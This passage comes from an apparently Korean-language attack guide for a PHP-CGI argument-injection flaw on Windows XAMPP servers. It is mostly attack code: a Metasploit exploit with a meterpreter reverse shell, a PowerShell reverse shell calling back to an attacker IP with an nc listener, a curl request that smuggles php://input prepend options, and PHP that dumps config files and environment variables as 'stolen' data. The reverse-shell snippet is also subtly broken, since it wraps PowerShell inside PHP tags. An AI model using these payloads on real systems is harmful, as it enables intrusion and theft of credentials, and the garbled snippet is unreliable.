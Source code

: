 ### 방법 4: Metasploit (고급)

```bash
# Metasploit Framework
use exploit/windows/http/php_cgi_arg_injection
set RHOSTS 192.168.1.100
set TARGETURI /1x_inv/vulnerable_cgi.php
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.50
exploit
```

---

## 🔬 고급 Payload 예제

### 1. Reverse Shell (Windows)

```powershell
# PowerShell Reverse Shell
$payload = @"
<?php
\$client = new-object System.Net.Sockets.TcpClient('192.168.1.50',4444);
\$stream = \$client.GetStream();
[byte[]]\$bytes = 0..65535|%{0};
while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0){
    \$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0, \$i);
    \$sendback = (iex \$data 2>&1 | Out-String );
    \$sendback2 = \$sendback + 'PS ' + (pwd).Path + '> ';
    \$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback2);
    \$stream.Write(\$sendbyte,0,\$sendbyte.Length);
    \$stream.Flush()
};
\$client.Close()
?>
"@

# 리스너 시작 (공격자 머신)
nc -lvnp 4444

# Payload 전송
curl -X POST "http://target/vulnerable_cgi.php?lang=en%ADd+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input" -d $payload
```

### 2. 데이터 탈취

```php
<?php
// 데이터베이스 설정 파일 읽기
$config = file_get_contents('../api/config.php');
file_put_contents('C:\\xampp\\htdocs\\stolen_config.txt', $config);

// 환경 변수 탈취
$env = print_r($_ENV, true);
file_put_contents('C:\\xampp\\htdocs\\stolen_env.txt', $env);
?>
```

